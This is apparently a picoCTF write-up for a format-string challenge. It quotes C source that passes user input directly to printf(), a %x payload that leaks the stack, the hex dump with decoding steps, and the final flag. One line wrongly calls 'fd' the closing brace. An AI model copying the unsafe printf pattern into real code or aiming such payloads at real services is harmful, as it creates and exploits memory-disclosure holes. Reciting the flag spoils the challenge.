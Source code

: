 # Flag Leak - 300 pts

### Key points

- Format strings

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:

```ps1
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> picopicopico
Here's a story -
picopicopico
```

---

## Solution

Here's the source code for the `vuln()` function:

```C
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

The program reads a user input and simply prints it back out, but using [`printf()`](https://documentation.help/C-Cpp-Reference/printf.html). This is vulnerable to a format string exploit.

An example of a proper use of `printf()` is:

```C
printf("This is the flag: %s", "picoCTF{n0p3}");
>>> This is the flag: picoCTF{n0p3}
```

Basically, `printf()` substitutes format flags (indicated by a `%` sign) in a base string with the corresponding arguments. Here, `printf()` is not supplied any arguments; it only prints our output. What if we put format flags in our input?

When more arguments than format flags are provided, `printf()` may start reading or even writing to the stack.

Let's enter a payload of a bunch of `%x` format flags to leak the stack in hexadecimal.

```ps1
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story -
ff816660ff8166808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365fbad2000a16231000f7fd8990804c00080494100804c000ff81674880494182ff8167f4ff8168000ff81676000f7dceee5
```

`6f636970` is `pico` in hex (little endian), and `fd` is our closing brace `'}'`. Make sure to include 3 characters after `7d` because of endianness. Let's grab that chunk and convert it:

```
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365
```

---

## Flag:

> `picoCTF{l34k1ng_Fl4g_0ff_St4ck_c2e94e3d}`

